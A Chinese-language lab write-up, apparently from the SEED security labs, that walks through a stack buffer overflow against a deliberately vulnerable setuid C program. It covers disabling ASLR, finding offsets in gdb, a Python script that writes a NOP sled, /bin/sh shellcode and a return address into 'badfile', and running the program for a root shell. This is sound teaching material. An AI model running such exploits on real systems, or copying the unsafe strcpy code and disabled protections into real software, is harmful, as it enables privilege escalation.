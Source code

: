 # 栈的缓冲区溢出攻击

## 1. 关闭地址空间随机化

这一步是为了获取固定的栈地址，方便后续的攻击。

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

## 2. 准备有漏洞的程序

```c
// stack.c

#include "stdio.h"
#include "stdlib.h"
#include "string.h"

int foo(char *str) {
    char buffer[100];

	strcpy(buffer, str);
	return 1;
} 

int main(int argc, char **argv) {
	char str[400];
	FILE *badfile;

	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 300, badfile);
	foo(str);

	printf("Returned Properly\n");
	return 1;
}
```

对其进行编译，并设置为setuid程序：

```bash
# 使gcc支持32位编译
sudo apt-get install gcc-multilib
# 编译stack程序(默认为64位)，编译32位需加-m32
gcc -o stack_32 -m32 -z execstack -fno-stack-protector stack.c
sudo chown root stack_32
sudo chmod 4755 stack_32
```

其中，`-z execstack`设置栈为可执行，`-fno-stack-protector`关闭StackGuard机制。

## 3. 通过调试寻找注入地址

```bash
# 创建badfile（badfile不存在会导致segmentation fault）
touch badfile
# 为了方便调试时断点设置，编译一个含有符号信息的stack
gcc -g -o stack_32_dbg -m32 -z execstack -fno-stack-protector stack.c
# 使用gdb进行调试
gdb stack_32_dbg
# 对foo函数设置断点
b foo
# 运行程序，程序会在断点处停止
r
# 打印ebp寄存器和buffer变量的地址，并计算差值
p $ebp
p &buffer
```

注意：
1. 对于`stack_32`，帧指针为`$ebp`；对于`stack_64`，帧指针为`$rbp`。
2. **在SEED VM更新为Ubuntu 20.04之后，上述gdb的调试行为发生了一些变动**。在以前的Ubuntu 16.04中，对`foo`函数下断点然后run，此时的`$ebp`就是`foo`函数的帧指针。但在Ubuntu 20.04中，此时的`$ebp`却还是`main`函数的帧指针，因而有以下两种方法获取正确的`foo`函数`$ebp`：

```bash
# 方法一：
# 仍然对foo函数下断点
b foo
# 运行程序
r
# next步过一次，或者stepi步进三条机器指令
next # stepi 几次取决于你在gdb的汇编code区域观察到 push ebp; mov ebp, esp; 执行完毕
# 此时打印ebp即为正确的foo帧指针地址
p $ebp
...

# 方法二：
# 对foo函数里的strcpy所在行下断点
b stack.c:10
# 运行程序
r
# 获取正确的foo帧指针地址
p $ebp
...
```

## 4. 生成badfile

```python
#!/usr/bin/python3

import sys

shellcode = (
	"\x31\xc0" 	# xorl %eax,%eax
	"\x50" 	   	# %eax
	"\x68""//sh"	# pushl $0x68732f2f
	"\x68""/bin"	# pushl $0x6e69622f
	"\x89\xe3"	# movl %esp,%ebx
	"\x50"		# pushl %eax
	"\x53"		# pushl %ebx
	"\x89\xe1"	# movl %esp,%ecx
	"\x99"		# cdq
	"\xb0\x0b"	# movb $0x0b,%al
	"\xcd\x80"	# int $0x80
).encode('latin-1')

# fill with nop
content = bytearray(0x90 for i in range(300))

# put the shellcode
start = 300 - len(shellcode)
content[start:] = shellcode

# set the entry point of the shellcode
ret = 0xffffcfe8 + 120
content[112:116] = (ret).to_bytes(4, byteorder='little')

with open('badfile', 'wb') as wb:
	wb.write(content)
```

注意：
1. 上述代码中 `ret = 0xffffcfe8 + 120`的`0xffffcfe8`替换为你自己调试时的`p $ebp`值。
2. return address为`$ebp+4`，又因为是32位程序，所以return address对应`content[112:116]`（其中`112 = $ebp-&buffer + 4`）
3. 由于gdb可能会在调试过程中向栈中push一些其他的数据从而导致`$ebp`位于更深的位置，即在实际执行`stack`程序时，`$ebp`的地址可能要高于我们在gdb中看到的值，所以`ret = $ebp + 8`可行（因为有NOP Sled存在）而`ret = $gdb_ebp + 8`不可行。因此我们一般取一个稍大的偏移值，比如`120`或`200`。大家也可以在执行失败时尝试不同的偏移值。但需要注意的是，`ret`地址中不能包含0，否则会导致`strcpy`读取到0之后提前返回，无法将后续的内容拷贝到`buffer`。

对上述文件增加执行权限后执行，生成badfile：

```bash
chmod u+x exploit.py
./exploit.py
```
这时生成了badfile。

## 5. 执行攻击

与之前实验类似，首先替换掉含有保护机制的shell。

```bash
sudo ln -sf /bin/zsh /bin/sh
```

执行漏洞程序获得root shell。

```bash
./stack
id
```

## 6. 思考

如何栈溢出攻击64位的stack程序呢？